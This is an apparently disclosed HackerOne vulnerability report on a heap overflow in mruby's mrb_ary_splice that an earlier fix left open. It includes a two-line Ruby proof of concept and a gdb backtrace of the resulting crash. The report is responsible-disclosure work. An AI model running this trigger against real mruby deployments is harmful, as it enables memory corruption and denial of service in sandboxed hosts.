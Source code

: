 # Still heap overflow in mrb_ary_splice

## Report Details
- **Report ID**: 197719
- **URL**: https://hackerone.com/reports/197719
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-01-12T04:51:40.576Z
- **Disclosed**: 2017-02-07T07:42:20.551Z

## Reporter
- **Username**: tunz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
The fix of #192362 is still crashed with a different PoC. I think the cause of this bug is the same and I missed the incomplete fix, so you may be able to skip rewards for this one.

# Cause
If I set the `tail` value to a specific value, then I can maintain the array size. [The original fix](https://github.com/ksss/mruby/commit/caba1a19dc3f9e31612d8439cfa7fbf60d05bbb0) only checks array size, but it still overwrites too many value due to the big `head` value in https://github.com/ksss/mruby/blob/caba1a19dc3f9e31612d8439cfa7fbf60d05bbb0/src/array.c#L630.

# PoC
(64bits for mrb_int)
```ruby
ary = Array.new(1024)
ary[0x7ffffffffffffc00,1024] = Array.new(1024)
```

# gdb
```
$ gdb -q --args ./bin/mruby test10.rb
Reading symbols from ./bin/mruby...done.
(gdb) r
Starting program: /home/tunz/working/mruby/mruby/bin/mruby test10.rb
1024

Program received signal SIGSEGV, Segmentation fault.
0x0000000000414878 in ary_fill_with_nil (ptr=0x22e3010, size=9223372036854765361) at /home/tunz/working/mruby/mruby/src/array.c:104
104         *ptr++ = nil;
(gdb) bt
#0  0x0000000000414878 in ary_fill_with_nil (ptr=0x22e3010, size=9223372036854765361)
    at /home/tunz/working/mruby/mruby/src/array.c:104
#1  0x00000000004160e6 in mrb_ary_splice (mrb=0x225e010, ary=..., head=9223372036854774784, len=1024, rpl=...)
    at /home/tunz/working/mruby/mruby/src/array.c:639
#2  0x00000000004166d3 in mrb_ary_aset (mrb=0x225e010, self=...) at /home/tunz/working/mruby/mruby/src/array.c:821
#3  0x0000000000430fd5 in mrb_vm_exec (mrb=0x225e010, proc=0x22611b0, pc=0x22c61bc) at /home/tunz/working/mruby/mruby/src/vm.c:1174
#4  0x000000000042f47b in mrb_vm_run (mrb=0x225e010, proc=0x22611b0, self=..., stack_keep=0)
    at /home/tunz/working/mruby/mruby/src/vm.c:772
#5  0x0000000000437599 in mrb_top_run (mrb=0x225e010, proc=0x22611b0, self=..., stack_keep=0)
    at /home/tunz/working/mruby/mruby/src/vm.c:2491
#6  0x0000000000447c47 in mrb_load_exec (mrb=0x225e010, p=0x22ba450, c=0x22b90c0)
    at /home/tunz/working/mruby/mruby/mrbgems/mruby-compiler/core/parse.y:5755
#7  0x0000000000447cdd in mrb_load_file_cxt (mrb=0x225e010, f=0x22ba090, c=0x22b90c0)
    at /home/tunz/working/mruby/mruby/mrbgems/mruby-compiler/core/parse.y:5764
#8  0x00000000004024fc in main (argc=2, argv=0x7fff6c17e5b8)
    at /home/tunz/working/mruby/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232
(gdb)
```

## Attachments
No attachments
